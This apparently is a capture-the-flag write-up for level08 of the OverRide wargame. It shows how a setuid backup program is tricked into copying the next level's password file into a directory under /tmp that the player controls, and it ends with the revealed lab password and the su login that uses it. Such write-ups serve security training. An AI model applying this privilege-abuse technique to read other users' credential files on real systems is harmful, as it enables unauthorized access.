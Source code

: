 Here, we have a program that read a given file and create a backup into the `backups` file.
So the first thing we try :

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

```

Maybe we can try to create the given directories ? 

```
level08@OverRide:~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
```

No luck here.
So let's try to do the same thing but inside a directory where we have more rights:

```bash
level08@OverRide:/tmp$ cd /tmp
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

hmmm forgot something...

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

```bash
su level09
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

